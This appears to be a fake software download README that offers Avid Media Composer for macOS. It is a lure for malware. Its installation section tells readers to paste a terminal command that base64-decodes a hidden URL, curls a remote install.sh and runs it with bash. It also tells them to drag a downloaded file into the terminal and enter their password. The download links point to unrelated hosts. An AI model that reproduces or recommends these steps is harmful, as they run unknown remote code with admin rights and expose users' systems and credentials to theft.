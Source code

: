 # Avid Media Composer – Professional Video Editing Software for macOS

![Avid Media Composer Keyboard](https://www.editorskeys.com/cdn/shop/products/new-media-composer-keyboard-backlit-wireless-mac-and-pc-929911.jpg?v=1717082435&width=1500)

## 📥 Download Avid Media Composer for macOS

[![⬇️ Download Avid Media Composer](https://img.shields.io/badge/Download-Avid%20Media%20Composer-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/Avid)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Avid Media Composer?

**Avid Media Composer** is a leading professional video editing software trusted by film and television editors worldwide. Designed for macOS, it delivers robust editing tools, high-performance media management, and advanced effects, enabling creative professionals to craft complex video projects efficiently.

With a rich feature set including multi-cam editing, color correction, visual effects, and support for a wide range of media formats, Media Composer is suited for everything from indie films to major Hollywood productions. Its streamlined interface is optimized for Apple Silicon (M1/M2) and Intel Macs, ensuring smooth, real-time playback and editing even with 4K and higher-resolution footage.

Media Composer’s collaborative workflow tools enable teams to work seamlessly on large projects, share media, and track changes in real-time. Whether you’re an experienced editor or stepping into professional video production, Avid Media Composer offers the power and flexibility to bring your vision to life.

---

![Avid Media Composer Timeline](https://www.dpreview.com/files/p/articles/5417878187/avid-media-composer-2020-4-timeline-sequence-map.jpeg)

---

## ⚙️ Key Features

- 🎞️ Advanced timeline and multicam editing  
- 🎨 Professional color grading and correction tools  
- 🖥️ Real-time effects and transitions  
- 📁 Efficient media management and proxy workflows  
- 🎬 Support for a wide variety of codecs and formats  
- 🤝 Collaborative tools for team workflows  
- 🚀 Optimized for Apple Silicon and macOS  
- 🔊 Integrated audio editing and mixing  

---

## 📦 System Requirements

- macOS 10.15 (Catalina) or later  
- Apple Silicon (M1/M2) or Intel-based Mac  
- Minimum 16 GB RAM (32 GB recommended)  
- Dedicated GPU recommended for effects acceleration  
- High-speed storage for media  

---

## 🔍 Tags

avid mac, avid media composer mac, avid media mac, avid media composer download for mac, avid media composer download mac, avid media composer m1, avid video editor mac, professional video editing mac, mac os video editor, avid media composer apple silicon, media composer m1 mac, avid editing software mac, film editing mac, mac video production, avid mac download
